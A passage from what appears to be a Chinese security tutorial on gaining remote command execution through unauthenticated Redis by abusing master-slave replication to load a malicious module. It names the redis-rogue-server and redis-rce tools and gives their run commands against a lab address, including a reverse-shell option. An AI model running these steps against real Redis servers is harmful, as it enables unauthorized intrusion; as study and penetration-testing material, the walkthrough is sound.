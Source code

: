 >**由于系统的不同，crontrab定时文件位置也会不同：**
>- Centos的定时任务文件在`/var/spool/cron/<username>`
>- Ubuntu定时任务文件在`/var/spool/cron/crontabs/<username>`


## Redis 主从复制的命令执行
>Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式

在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以在Redis中实现一个新的Redis命令。我们可以通过外部拓展(.so)，在Redis中创建一个用于执行系统命令的函数
![](https://img-blog.csdnimg.cn/472fd347a0b543d29348bd14ca225ef0.png)
在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上，然后在从机上加载so文件，我们就可以执行拓展的新命令了

[深入学习Redis（3）：主从复制](https://www.cnblogs.com/kismetv/p/9236731.html)
### 利用 redis-rogue-server 工具
下载地址：[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
![](https://img-blog.csdnimg.cn/215962a77baa4a7991aa86d43e03cb8d.png)

该工具的原理就是首先创建一个恶意的Redis服务器作为Redis主机(master)，该Redis主机能够回应其他连接他的Redis从机的响应。有了恶意的Redis主机之后，就会远程连接目标Redis服务器，通过 slaveof 命令将目标Redis服务器设置为我们恶意Redis的Redis从机(slaver)。然后将恶意Redis主机上的exp同步到Reids从机上，并将dbfilename设置为exp.so。最后再控制Redis从机(slaver)加载模块执行系统命令即可
```
python3 redis-rogue-server.py --rhost 192.168.111.133 --lhost 192.168.111.1
```
执行后，可以选择获得一个交互式的shell(interactive shell)或者是反弹shell(reserve shell)
选择`i`来获得一个交互式的shell，执行执行系统命令
![](https://img-blog.csdnimg.cn/0082a4a2332b4340b680b5ca1a7ab6bd.png)

也可以选择`r`来获得一个反弹shell
![](https://img-blog.csdnimg.cn/a8217c13333046369a6fc580c2d84324.png)
![](https://img-blog.csdnimg.cn/8668837629184eb79696b64ebe650179.png)

但是该工具无法数据Redis密码进行Redis认证，也就是说该工具只能在目标存在Redis未授权访问漏洞时使用。如果目标Redis存在密码是不能使用该工具的


### 利用 redis-rce 工具
下载地址：[https://github.com/Ridter/redis-rce](https://github.com/Ridter/redis-rce)
![](https://img-blog.csdnimg.cn/14ee897db74345d2b29e587a64b5b17c.png)

这里存在`-a`可以进行Redis认证
将exp.so文件复制到redis-rce.py同一目录下，然后执行如下命令
```
python3 redis-rce.py -r 192.168.111.133 -L 192.168.111.1 -f exp.so
```
![](https://img-blog.csdnimg.cn/d83b64edc3b7457ab55aae9c193ee62e.png)

参考：
[浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)
[10.Redis未授权访问漏洞复现与利用](https://www.cnblogs.com/bmjoker/p/9548962.html)
[Redis 基于主从复制的 RCE 利用方式](https://paper.seebug.org/975/)
[Redis和SSRF ](https://xz.aliyun.com/t/1800)
[浅入深出 Redis 攻击方法总结](https://www.anquanke.com/post/id/241146)
